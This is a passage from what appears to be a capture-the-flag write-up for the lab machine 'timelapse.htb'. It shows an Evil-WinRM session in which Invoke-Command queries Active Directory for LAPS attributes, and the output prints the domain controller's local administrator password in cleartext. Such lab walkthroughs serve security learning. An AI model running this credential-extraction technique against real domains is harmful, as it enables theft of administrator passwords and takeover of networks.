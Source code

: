 The final command will look like this:

```bash
Invoke-Command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

Run into the machine:

```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}


PSComputerName              : localhost
RunspaceId                  : b9dd19c6-5542-49e6-bda7-37520733fd1a
DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-Mcs-AdmPwd               : -wr8lMxvLm4H)4256zm18i5+
ms-Mcs-AdmPwdExpirationTime : 132981881311010063
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :

PSComputerName    : localhost
RunspaceId        : b9dd19c6-5542-49e6-bda7-37520733fd1a
DistinguishedName : CN=DB01,OU=Database,OU=Servers,DC=timelapse,DC=htb
DNSHostName       :
Enabled           : True
Name              : DB01
ObjectClass       : computer
ObjectGUID        : d38b3265-230f-47ae-bdcd-f7153da7659d
SamAccountName    : DB01$
SID               : S-1-5-21-671920749-559770252-3318990721-1606
UserPrincipalName :

PSComputerName    : localhost
RunspaceId        : b9dd19c6-5542-49e6-bda7-37520733fd1a
DistinguishedName : CN=WEB01,OU=Web,OU=Servers,DC=timelapse,DC=htb
DNSHostName       :
Enabled           : True
Name              : WEB01
ObjectClass       : computer
ObjectGUID        : 897c7cfe-ba15-4181-8f2c-a74f88952683
SamAccountName    : WEB01$
SID               : S-1-5-21-671920749-559770252-3318990721-1607
UserPrincipalName :

PSComputerName    : localhost
RunspaceId        : b9dd19c6-5542-49e6-bda7-37520733fd1a
DistinguishedName : CN=DEV01,OU=Dev,OU=Servers,DC=timelapse,DC=htb
DNSHostName       :
Enabled           : True
Name              : DEV01
ObjectClass       : computer
ObjectGUID        : 02dc961a-7a60-4ec0-a151-0472768814ca
SamAccountName    : DEV01$
SID               : S-1-5-21-671920749-559770252-3318990721-1608
UserPrincipalName :
```
